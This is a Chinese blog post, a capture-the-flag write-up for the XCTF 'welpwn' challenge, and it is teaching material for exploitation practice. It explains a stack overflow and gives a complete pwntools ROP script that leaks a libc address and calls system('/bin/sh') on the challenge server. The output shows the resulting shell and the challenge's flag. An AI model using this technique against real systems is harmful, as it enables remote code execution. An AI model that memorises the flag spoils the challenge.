




<!--yml
category: 未分类
date: 2022-04-26 14:19:10
-->

# welpwn [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列24_3riC5r的博客-CSDN博客_welpwn

> 来源：[https://blog.csdn.net/fastergohome/article/details/103724481](https://blog.csdn.net/fastergohome/article/details/103724481)

题目地址：[welpwn](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4767&page=1)

本题是高手进阶区的第13题，先看看题目



照例检查一下保护机制

```
[*] '/ctf/work/python/welpwn/a9ad88f80025427592b35612be5492fd'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没什么问题，只开了NX。

看下反编译之后的c语言代码：

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-400h]

  write(1, "Welcome to RCTF\n", 0x10uLL);
  fflush(_bss_start);
  read(0, &buf, 0x400uLL);
  echo((__int64)&buf);
  return 0;
}

int __fastcall echo(__int64 pszInputString)
{
  char szTemp[16]; // [rsp+10h] [rbp-10h]

  for ( g_nIndex = 0; *(_BYTE *)(g_nIndex + pszInputString); ++g_nIndex )
    szTemp[g_nIndex] = *(_BYTE *)(g_nIndex + pszInputString);
  szTemp[g_nIndex] = 0;
  if ( !strcmp("ROIS", szTemp) )
  {
    printf("RCTF{Welcome}", szTemp);
    puts(" is not flag");
  }
  return printf("%s", szTemp);
}
```

这个题目的代码量非常少。我们看到echo里面有数组下标溢出，但是有判断条件：输入的字符如果是0的话不再继续拷贝数据，那我们溢出的时候，就没法输入多个地址数据了。

我们用ida调试的时候发现echo函数的栈底下方接着的就是main函数的buf变量。



我们试着输入多个地址数据



看看堆栈的情况如何



用gdb调试，发现echo函数溢出之后只接收到了第一个地址，但是下面的堆栈有完整的多个地址的输入数据。

这就好办了，我们先pop出来4个堆栈数据，那么接下来就是我们输入的rop指令了。

那我们就先找一下连续4个pop的rop指令：

```
root@mypwn:/ctf/work/python/welpwn# ROPgadget --binary ./a9ad88f80025427592b35612be5492fd --only 'pop|ret'
Gadgets information
============================================================
0x000000000040089c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040089e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004008a0 : pop r14 ; pop r15 ; ret
0x00000000004008a2 : pop r15 ; ret
0x000000000040089b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040089f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400675 : pop rbp ; ret
0x00000000004008a3 : pop rdi ; ret
0x00000000004008a1 : pop rsi ; pop r15 ; ret
0x000000000040089d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400589 : ret
0x00000000004006a5 : ret 0xc148
0x000000000040081a : ret 0xfffd

Unique gadgets found: 13 
```

可以看到第一个40089c就是我们需要的指令，只需要一个地址就行了。那就把第一个地址放在溢出的eip，后面跟上我们需要的rop指令就好了。

构建一下python脚本如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './a9ad88f80025427592b35612be5492fd'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 54453)
elf = ELF(process_name)

main_addr = 0x4007CD
echo_addr = 0x40071D
pop_rdi_ret = 0x4008a3
pop4_ret = 0x40089c
write_got = elf.got['write']
puts_plt = elf.plt['puts']
payload = 'A'*(0x10+8) + p64(pop4_ret) + p64(pop_rdi_ret) + p64(write_got) + p64(puts_plt) + p64(main_addr)
# pause()

p.sendafter('Welcome to RCTF\n', payload)
p.recvuntil('A'*(0x10+8))
p.recv(3)
write_addr = u64(p.recvn(6).ljust(8, '\x00'))
log.info("write_addr => %#x", write_addr)

from LibcSearcher import *
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'A'*(0x10+8) + p64(pop4_ret) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
p.send(payload)
p.interactive() 
```

执行情况如下：

```
root@mypwn:/ctf/work/python/welpwn# python welpwn.py 
[+] Opening connection to 111.198.29.45 on port 54453: Done
[DEBUG] PLT 0x40059c puts
[DEBUG] PLT 0x4005b0 write
[DEBUG] PLT 0x4005c0 printf
[DEBUG] PLT 0x4005d0 alarm
[DEBUG] PLT 0x4005e0 read
[DEBUG] PLT 0x4005f0 __libc_start_main
[DEBUG] PLT 0x400600 strcmp
[DEBUG] PLT 0x400610 __gmon_start__
[DEBUG] PLT 0x400620 fflush
[*] '/ctf/work/python/welpwn/a9ad88f80025427592b35612be5492fd'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[DEBUG] Received 0x10 bytes:
    'Welcome to RCTF\n'
[DEBUG] Sent 0x40 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  9c 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000020  a3 08 40 00  00 00 00 00  20 10 60 00  00 00 00 00  │··@·│····│ ·`·│····│
    00000030  9c 05 40 00  00 00 00 00  cd 07 40 00  00 00 00 00  │··@·│····│··@·│····│
    00000040
[DEBUG] Received 0x10 bytes:
    'Welcome to RCTF\n'
[DEBUG] Received 0x22 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  9c 08 40 b0  d2 ee 66 35  │AAAA│AAAA│··@·│··f5│
    00000020  7f 0a                                               │··│
    00000022
[*] write_addr => 0x7f3566eed2b0
[+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
[DEBUG] Sent 0x38 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  9c 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000020  a3 08 40 00  00 00 00 00  57 2d f8 66  35 7f 00 00  │··@·│····│W-·f│5···│
    00000030  90 b3 e3 66  35 7f 00 00                            │···f│5···││
    00000038
[*] Switching to interactive mode

$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x42 bytes:
    'bin\n'
    'dev\n'
    'flag\n'
    'lib\n'
    'lib32\n'
    'lib64\n'
    'libc32-2.19.so\n'
    'libc64-2.19.so\n'
    'welpwn\n'
bin
dev
flag
lib
lib32
lib64
libc32-2.19.so
libc64-2.19.so
welpwn
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2d bytes:
    'cyberpeace{1fcc408fd64acb1dcde98c0f11a7429b}\n'
cyberpeace{1fcc408fd64acb1dcde98c0f11a7429b}
```

执行成功！本题的知识点是用gdb进行内存堆栈调试，发现堆栈的排列情况。